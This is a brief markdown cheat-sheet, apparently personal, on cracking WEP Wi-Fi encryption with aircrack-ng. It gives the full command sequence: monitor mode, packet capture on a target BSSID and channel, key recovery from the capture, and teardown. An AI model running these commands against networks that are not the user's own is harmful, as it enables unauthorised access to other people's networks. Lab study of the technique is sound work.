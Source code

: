 # Cracking WEP with aircrack-ng

`airmon-ng start wlan0`

`airodump-ng wlan0mon`

Don't forget to replace CHANNEL en BSSID withe the right channel and bssid.

`airodump-ng -c "CHANNEL" --bssid "BSSID" -w dump wlan0mon`

After enough packets are recieved we can crack the encryption key using:

`aircrack-ng -b "juist bssid" dump-01.cap`

After cracking the password we can stop the wlan0mon interface using:

`airmon-ng stop wlan0mon`

